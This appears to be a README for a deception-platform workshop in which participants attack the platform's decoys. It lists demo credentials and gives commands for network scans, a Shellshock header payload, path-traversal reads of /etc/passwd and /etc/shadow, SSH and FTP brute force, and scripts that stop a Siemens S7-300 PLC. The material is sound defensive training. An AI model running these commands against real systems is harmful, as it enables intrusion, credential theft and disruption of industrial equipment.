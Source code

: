 # Welcome to the Labyrinth Deception Platform workshop
All you may need for the workshop is available in this repository.
## Getting access
Our lab setup looks this way:

Please navigate to our demo stand:
1. **Credentials to the AdminVM**

You may use any web browser of your choice.
```
URL: https://demo.labyrinth.tech/
Username: user
Password: lFcGa0y7!_37
```
> [!NOTE]
> Feel free to create your own users here by going to the Settings->Users.

2. **Credentials to the attacking host**

From this host you will perform your attacks. Please use SSH and following credentials:
```
Host: warrior.labyrinth.tech
Username: user
Password: K4H*91kYg/j*
```

## Terminology that will be used today
Due to the fact that today we are using Labyrinth Deception Platform as the example of the deception platfroms, it has its own terminology that will be actively used today:
1. **Point** = network decoy, lure, deceptive network services.
> [!NOTE]
> Points ARE NOT separate virtual machines.
2. **Honeynet** = network segment in which Points operate. Used to specify in which VLAN you would like to run your Points.
3. **Seeder Tasks** = file decoys, breadcrumbs used to logically link real and deceptive infrastructure.
4. **Seeder Agent** = binary that spreads Seeder Tasks on real hosts.
5. **Admin VM (Management Console)**  = main module that controls the system.
6. **Worker VM** = node on which Points are running.

## Commands transcript
In addition, we provide the transcript of all commands for your ease of use. Even if you missed any part of the presentation, feel free to use those notes to continue exploring.

> [!IMPORTANT]
> **\<any data>** indicates that you should paste in your own data that is entioned inside the triangular brackets.
>
> **[options]** indicates that this part (or parts) of the command is optional and can be omitted. Multiple options are listed using / (slash).

#### Case 1: network scan detection
Several tools can be used. For example, [nmap](https://nmap.org/):
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```

#### Case 2: deception using breadcrumbs
1. Navigate to the Seeder Agents -> Tasks
2. Choose ssh_txt_credentials or ssh_config from the list
3. Click on three dots, and then Details
4. Use those credentials to login:
```
ssh <user>@<Point IP>
```

#### Case 3: web deception using UWP
UWP stands for Universal Web Point. It is a decoy type, developed by the Labyrinth Security Solutions team, that allows to emulate anything that has a web interface just in seconds.

In this case we will be trying to exploit [Shellshock](https://blog.cloudflare.com/inside-shellshock).
```
curl -k -H "User-Agent: () { :; }; /bin/bash cat /etc/passwd" http://<UWP IP>/
```
#### Case 4: interaction with MQTT broker
Subscribe to all topics:
```
mosquitto_sub -h <MQTT broker IP> -t "#" [-u <username> -P <password>]
```
Publish a topic:
```
mosquitto_pub -h <Point IP> -t <topic name> [-u <username> -P <password>] -m 'My Message'
```

#### Case 5: S7comm malformed PDU
For this case there is a [script](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) that is also available on your VM:
```
cd scripts
```
Simply run it: 
```
python3 S7_malformed_PDU.py -a <Point IP>
```
Or:
```
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```
More about S7comm packet structure: [The Siemens S7 Communication - Part 1 General Structure](http://gmiru.com/article/s7comm/) and [The Siemens S7 Communication - Part 2 Job Requests and Ack Data](http://gmiru.com/article/s7comm-part2/)

#### [Advanced] Case 6: gathering info from web server

1. Find web server
```
sudo nmap -sS -sC -p80,443 <Honeynet subnet> -vvv 
```
Also search for an SSH host: 
```
sudo nmap -sS -sC -p22 <Honeynet subnet> -vvv 
```
2. Perform LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
or
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```

Bonus step: search for additional web path:
```
dirsearch --wordlists=/home/student/wordlists/directories.txt -u https://<Point IP>/ 
```

Reference: [dirsearch](https://github.com/maurosoria/dirsearch)

3. Setup the wordlist
```
cd wordlists
nano brute.dict
```
4. Perfrom SSH bruteforce
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Login to the host
```
ssh <user>@<Point IP>
```
Bonus step: reuse credentials to connect to another host
```
ssh <user>@warrior.labyrinth.tech
```

#### [Advanced] Case 7: attacking industrial networks
1. Search network for FTP server
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Connect to the FTP

Try to connect anonymously:
```
ftp <FTP IP address>
```
Start FTP bruteforce:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Inspect found file
```
ls -la
file <file>
less <file>
```
4. Perform S7comm CPU control request
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP address>
```
In addition, you can try to start CPU start message:
```
python2 s7300cpustart.py <S7-300 IP address>
```
Reference: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## About Labyrinth Deception Platform
Labyrinth is a team of experienced cybersecurity engineers and penetration testers, which specializes in the development of solutions for early cyber threat detection and prevention.

Deception techniques provide adversaries with an essential advantage over defenders, who cannot predict attackers’ next move. **OUR VISION** is to shift the balance of power in favor of defenders.

**OUR MISSION** is to provide all kinds of organizations with a simple and efficient tool for the earliest possible detection of attackers inside the corporate network.

More information about the platform: https://labyrinth.tech/ 
